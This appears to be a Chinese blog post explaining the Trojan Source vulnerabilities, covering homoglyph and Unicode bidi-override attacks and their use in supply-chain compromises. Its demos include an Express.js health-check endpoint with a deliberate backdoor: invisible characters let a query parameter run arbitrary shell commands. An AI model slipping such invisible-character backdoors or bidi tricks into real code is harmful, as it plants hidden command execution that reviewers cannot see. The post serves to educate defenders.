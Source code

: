 ## 引言  

一个简单的例子  

~~~python
ꓐ = 1
B = 2
print(ꓐ)
~~~

这端代码看起来结果是 2 但实际上结果是1  
因为 `ꓐ` 与 `B` 并不是同一个字符, 尽管它们看起来长得一模一样  


## Trojan Source  

剑桥大学的研究人员在11月1日公开了一个会影响大多数编译器和软件开发环境的漏洞，并命名为 **Trojan Source**  
>论文: [《Trojan Source: Invisible Vulnerabilities》](https://trojansource.codes/trojan-source.pdf)  

该漏洞基于 **Unicode** 字符的特性，其主要有两种利用方法  
* 第一种是使用 Unicode 的 Bidi 算法（CVE-2021-42574）, 对字符进行视觉上的重新排序，使其呈现与编译器和解释器所不同的逻辑顺序  
* 第二种是同形文字攻击(CVE-2021-42694), 也就是利用在视觉上看起来相似的不同字符  

由于绝大多数该漏洞适用于绝大多数编程语言  
因为大多数语言的 词法分析过程 允许使用所有unicode字符  

很多时候, 这个漏洞会被用于 供应链攻击  

> **供应链攻击**  
> 供应链攻击是一种传播间谍软件的方式，一般通过产品软件官网或软件包存储库进行传播  
> 通常来说，黑客会瞄准部署知名软件官网的服务器，篡改服务器上供普通用户下载的软件源代码，将间谍软件传播给前往官网下载软件的用户  
> 此外，黑客还会向一些软件开发者常用的软件包存储库如npm、PyPI和RubyGems等注入带有恶意代码的软件包。这些软件包在用户下载后安装时会触发恶意行为  


## 同形文字攻击(CVE-2021-42694)  

引言中的 DEMO 代码就属于此种  
或者写一个 看不出有后门的服务  

~~~js
const express = require('express');
const util = require('util');
const exec = util.promisify(require('child_process').exec);

const app = express();

app.get('/network_health', async (req, res) => {
    const { timeout,ㅤ} = req.query;
    const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',ㅤ
    ];

    try {
        await Promise.all(checkCommands.map(cmd => 
                cmd && exec(cmd, { timeout: +timeout || 5_000 })));
        res.status(200);
        res.send('ok');
    } catch(e) {
        res.status(500);
        res.send('failed');
    }
});

app.listen(8080);
~~~
这段代码使用 Express 框架搭建了一个 API 接口，当你调用 http://127.0.0.1:8080/network_health 的时候, 后台会首先ping一下 Google，然后再使用curl访问 http://example.com  
如果都成功了，那么显然你的网络是正常的，于是给你返回ok  

这个功能简单得不能再简单了，能有什么问题呢？我现在就把代码放到你的面前让你来 Review , 你能说我的代码有问题？  
但实际上，上面这段代码确实有一个后门，可以让我在部署了这个接口的机器上执行任意命令，包括但不限于下载木马或者 `rm -rf *`  

~~~js
......
    const { timeout, 这里} = req.query;
    const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',这里
    ];
......
~~~

因为代码中有两个肉眼不可见的字符, 利用它们就能够接收参数, 执行任何命令  


## Unicode 的 Bidi 攻击算法(CVE-2021-42574)  

并非所有的语言文字都是从左往右的, 例如阿拉伯语（从右到左阅读）  
计算机系统需要有一种确定性的方法来解决文本中的方向冲突  

Unicode 规定了一些方向指示字符，一旦使用了这些方向转换字符，文字方向就会改变  

|Abbreviation| Code Point |Name |Description|
|--|--|--|--|
|LRE| U+202A | Left-to-Right |Embedding Try treating following text as left-to-right.|
|RLE| U+202B | Right-to-Left |Embedding Try treating following text as right-to-left.|
|LRO| U+202D | Left-to-Right |Override Force treating following text as left-to-right.|
|RLO| U+202E | Right-to-Left |Override Force treating following text as right-to-left.|
|LRI| U+2066 | Left-to-Right |Isolate Force treating following text as left-to-right without affecting adjacent text.|
|RLI| U+2067 | Right-to-Left |Isolate Force treating following text as right-to-left without affecting adjacent text.|
|FSI| U+2068 | First Strong |Isolate Force treating following text in direction indicated by the next character.|
|PDF| U+202C | Pop Directional |Formatting Terminate nearest LRE, RLE, LRO, or RLO.|
|PDI| U+2069 | Pop Directional |Isolate Terminate nearest LRI or RLI.|


Unicode 标准规定, 内存表示顺序称为逻辑顺序,  
当文本在一行的时候, 大多数脚本会从左往右显示字符. 然而, 也有些脚本（如阿拉伯语）显示文本的自然顺序是从右往左  

所以 Unicode 规定了每个字符都有一个隐式双向类型  
从左到右 和 从右到左 的双向类型称为强类型，具有这些类型的字符被称为强方向字符  
与数字相关的双向类型被称为弱类型，具有这些类型的字符被称为弱方向字符  
除了方向格式码，剩下的双向类型和字符被称为中性  

为了处理 右往左的语言 与 从左往右的语言 同时使用的情况  
Unicode 规定了一个双向的算法 Bidirectional algorithm 简称 bidi  
标准bidi算法提供的显示顺序还不够，所以对于这些情况，提供了覆盖控制字符  
Bidi算法覆盖是不可见的字符，从而可以切换字符组的显示顺序  

假设Unicode 字符为： `RLI 1 2 3 PDI`  
那么将显示为：`3 2 1`  

大多数IDE会自动根据 覆盖控制字符 调整字符顺序  
但并非所有地方都会调整, 有些地方会按原本字符顺序显示  
比如: Github 上看到的 HTML 中的 代码内容是不会根据 覆盖控制字符 来调整顺序的   

例子: 1+1=2 不是吗？  

~~~
def simple_add():
    ''' I just want to ⁧''' ;return '2'
    return '3'

print('1 + 1 =', simple_add())
~~~

这段代码执行的结果是 `1 + 1 = 2`, 尽管怎么看都应该是 `1 + 1 = 3`  
这是因为这段代码使用了 `RLI` 这个 **覆盖控制符**  
将这个代码复制到 IDE 里, 它会显示出它原来的样貌，因为 IDE 会处理这个 **覆盖控制符**, 将之"还原"成"正确"的顺序    



## 参考  
* [《Trojan Source: Invisible Vulnerabilities》](https://trojansource.codes/trojan-source.pdf)  
* [Trojan 用例](https://github.com/nickboucher/trojan-source)  
* [Trojan Source：新型供应链攻击？隐藏在源代码中的“幽灵”](https://zhuanlan.zhihu.com/p/429284303)  
* [《漏洞之王：Unicode编译器漏洞威胁全球软件代码》](https://www.secrss.com/articles/35655)  
* [《一日一技：亲眼所见，也非真实，如何明目张胆架设后门程序》](https://mp.weixin.qq.com/s/qvHv_MfYbk6P5AqVjogapA)  

